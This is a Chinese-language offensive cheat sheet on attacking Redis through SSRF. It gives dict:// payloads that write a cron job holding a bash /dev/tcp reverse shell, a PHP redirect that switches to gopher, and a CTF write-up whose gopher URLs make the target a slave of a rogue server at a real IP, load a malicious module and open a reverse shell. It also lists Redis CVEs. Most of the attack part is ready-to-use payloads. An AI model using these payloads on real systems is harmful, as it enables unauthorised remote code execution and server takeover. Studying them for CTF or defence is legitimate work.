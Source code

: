## Redis攻击技巧

1、dict协议也可以操作数据

```
dict://127.0.0.1:6379/config:set:dir:/var/spool/cron
dict://127.0.0.1:6379/config:set:dbfilename:root
dict://127.0.0.1:6379/set:1:nn*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1nn
dict://127.0.0.1:6379/save
```

这是面向未授权的情况，如果存在口令，需要维持会话才可以执行命令。

但dict发完自带一个quit，并不能维持会话。

2、有ssrf+redis弱口令，禁用gopher协议，怎么利用？

302跳转，利用http跳转换成gopher协议。

```
header('Location: gopher://ip:6379/xxxx')
```

3、gopher协议可以维持认证会话，如果直接写contrab在save的时候提示没权限，写shell不知道路径，可以使用主从复制getshell，例子：[网鼎杯ssrfme](https://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652855735&idx=1&sn=ee5943cfe2498fdb894aa32b7f6a4a4a&chksm=bd59217a8a2ea86ce991ff62ab472d6cb9d6c18ba4c52167035c5fb70fc57648491af2eab74c&mpshare=1&scene=1&srcid=&sharer_sharetime=1590207696241&sharer_shareid=a7d99c78943a626e64cade4860efb7d9#rd)

```
直接在url栏输入需要两次URL编码
1、将dir设置到\tmp目录下，目录需可写
gopher://ctf.m0te.top:6379/_auth%2520welcometowangdingbeissrfme6379%250d%250aconfig%2520set%2520dir%2520/tmp/%250d%250aquit

gopher://ctf.m0te.top:6379/_auth welcometowangdingbeissrfme6379
config set dir /tmp/
quit

2、主从复制，在自己的VPS上起好了 rogue 服务器（github redis-rogue-server）
gopher://ctf.m0te.top:6379/_auth%2520welcometowangdingbeissrfme6379%250d%250aconfig%2520set%2520dbfilename%2520exp.so%250d%250aslaveof%252039.107.68.253%252060001%250d%250aquit

gopher://ctf.m0te.top:6379/_auth welcometowangdingbeissrfme6379
config set dbfilename exp.so
slaveof 39.107.68.253 60001
quit

3、服务器监听
gopher://ctf.m0te.top:6379/_auth%2520welcometowangdingbeissrfme6379%250d%250amodule%2520load%2520/tmp/exp.so%250d%250asystem.rev%252039.107.68.253%252060003%250d%250aquit

gopher://ctf.m0te.top:6379/_auth welcometowangdingbeissrfme6379
module load /tmp/exp.so
system.rev 39.107.68.253 60003
quit
```

## 其他

redis无写权限，无反序列化问题，不能主从复制getshell，怎么利用?

- Redis 远程代码执行漏洞(CVE-2016-8339)：Redis 3.2.x < 3.2.4版本存在缓冲区溢出漏洞，可导致任意代码执行。Redis数据结构存储的CONFIG SET命令中client-output-buffer-limit选项处理存在越界写漏洞。构造的CONFIG SET命令可导致越界写，代码执行。
- CVE- -2015- -8080：Redis 2.8.x在2.8.24以前和3.0.x，在3.0.6以前版本，lua_ struct.c中存在getnum函数整数溢出，允许上下文相关的攻击者许可运行Lua代码（内存损坏和应用程序崩溃）或可能绕过沙盒限制意图通过大量，触发基于栈的缓冲区溢出。
- CVE-2015- -4335：Redis 2.8.1之前版本和3.0.2之前3. x版本中存在安全漏洞。远程攻击者可执行eval命令利用该漏洞执行任意Lua字节码。
- CVE- -2013-7458：读取". rediscli_history"配置文件信息。

## Demo

[一次“SSRF-->RCE”的艰难利用](https://mp.weixin.qq.com/s?__biz=MzUyMDEyNTkwNA==&mid=2247483865&idx=1&sn=41e56040229e383a82a671fc359ee82b)

## 引导

bypass ssrf的方式。